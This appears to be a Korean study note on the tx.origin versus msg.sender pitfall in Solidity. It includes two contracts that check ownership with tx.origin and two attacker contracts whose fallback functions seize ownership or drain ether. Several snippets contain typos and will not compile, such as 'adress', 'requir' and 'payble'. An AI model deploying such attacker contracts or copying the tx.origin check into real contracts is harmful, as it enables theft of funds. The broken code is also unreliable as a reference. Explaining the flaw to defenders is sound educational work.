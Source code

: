 # tx.origin과 msg.sender

- tx.origin :  트랜잭션을 처음 시작한 계정(항상 EOA)   
- msg.sender : 트랜잭션을 처음 시작한 계정 or 중간에 컨트랙트를 경유할 경우 컨트랙트 계정으로 바뀔 수 있음
> ## tx.origin == msg.sender (x)
tx.origin과 msg.sender가 동일하다고 생각하고 tx.origin을 권한 검사에 사용하는것은 위험함

예시 1)
```solidity
//SPDX-License-Identifier:MIT
pragma solidity ^0.8.0;

contract MyContract {
    
    address owner;

    constructor() {
        owner = msg.sender;
    }

    modifier onlyOwner {
        require(owner == tx.origin, "Caller is not the onwner");
        _;
    }

    function transfer(adress _addr) {
        _addr.tansfer(this.balance);
    }

    function transferOwnership(address newOwner) public onlyOwner {
        owner = newOwner;
    }
}
```
transferOwnership() 함수를 실핼할 수 있는 것은 onlyOwner를 통과한 계정으로 제한됨. 그런데 owner를 tx.origin과 비교하고 있음.   
공격자는 다음과 같은 컨트랙트를 작성할 수 있음   
<br>

공격자 컨트랙트 )
```solidity
//SPDX-License-Identifier:MIT
pragma solidity ^0.8.0;

contract Attacker {
    address badUser;
    MyContract target;

    constructor(address _addr) {
        badUser = msg.sender;
        target = MyContract(_addr);
    }

    receive() external payable {
        target.transferOwnership(badUser);
    }
}
```
공격자가 MyContract의 배포 계정이 Attacker 컨트랙트에게 이더를 전송하도록 유도하여 성공한다면 receice() 함수가 받으면서 transferOwnership()이 실행될 것이고, tx.origin은 배포 계정이 됨. 따라서 modifier onluOwner를 무사히 통과하여 파라미터로 전달된 badUser계정이 owner가 됨.
<br>
![txorigin](/Solidity/Solidity-Docs/img/txorigin.png)
<br>


예시 2)
```solidity
contract Phishable {
    address owner;

    constructor (address _owner) {
        owner = _owner;
    }

    function () public payable {} // collect ether

    function withdrawAll(address _recipient) public {
        requir(tx.origin == owner); // 소유자 인증 후 수금자에게 모든 ether를 전송
        _recipient.transfer(this.balance);
    }
}
```

공격자 컨트랙트 )
```solidity
import "Phishable.sol"

contract AttackContract {
    Phishable phisableContract;
    address attacker; //송금 받을 공격자 계정

    constructor (Phishable _phishableContract, address _attackerAddress) {
        phisableContract = _phishableContract;
        attacker = _attackerAddress;
    }

    function () payble {
        phisableContract.withdrawAll(attacker);
    }
}
```
공격자는 Phishable 컨트랙트를 자신의 주소로 위장하여 owner를 변경하고 ether를 탈취할 수 있음


